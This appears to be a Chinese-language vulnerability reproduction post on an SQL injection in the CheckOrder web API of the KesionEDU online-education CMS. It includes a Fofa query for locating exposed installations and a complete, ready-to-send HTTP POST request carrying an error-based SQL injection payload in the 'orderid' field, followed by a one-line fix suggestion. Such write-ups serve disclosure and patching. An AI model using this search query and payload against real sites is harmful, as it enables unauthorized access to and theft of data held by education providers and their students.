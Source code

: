 ```yaml
---
layout: post
title: 科汛网校系统KesionEDU CheckOrder SQL注入漏洞
abbrlink: f1b3b83655a44884868ef8f4c95efbab
tags: []
categories:
  - 漏洞挖掘与复现
  - 网站cms
  - 厦门科汛
date: 1735290701338
updated: 1735305964565
---
```


## 产品简介

<blockquote>科汛网校KesionEDU是KESION科汛（厦门科汛软件有限公司）开发的在线教育建站系统，支持在线直播教学、课程点播、录播授课等多种教学方式，满足不同场景下的教学需求。提供问答互动、学习点评、在线笔记等功能，增强学员与教师之间的互动交流。拥有在线考试系统，支持单选、多选、问答等多种题型，方便学员进行课后测练和考试。供求职招聘功能，方便教育机构网罗各地人才，增强平台吸引力。提供全方位的技术支持和售后服务，确保教育机构在使用过程中无后顾之忧。是教育机构搭建在线教育平台的理想选择，利用测绘引擎搜索发现影响资产1100+。</blockquote>

## 漏洞描述

<blockquote>SQL注入被广泛用于非法入侵网站服务器，获取网站控制权。它是应用层上的一种安全漏洞。通常在设计存在缺陷的程序中，对用户输入的数据没有做好过滤，导致恶意用户可以构造一些SQL语句让服务器去执行，从而导致数据库中的数据被窃取，篡改，删除，以及进一步导致服务器被入侵等危害。</blockquote>

## Fofa语法

```
body="/KS_Inc/static/edu"
```

## 漏洞复现

```
POST /webapi/APP/CheckOrder HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close
Content-Length: 242
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Priority: u=0
X-Requested-With: XMLHttpRequest

{"orderid":"1' AND 7755 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(112)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (7755=7755) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(107)+CHAR(107)+CHAR(113)))-- Ahbw","apptoken":"1","ordertype":"1"}

```

## 修复建议

<blockquote>关闭互联网暴露面或接口设置访问权限，官方已经推出新版本，建议升级到最新版。</blockquote>
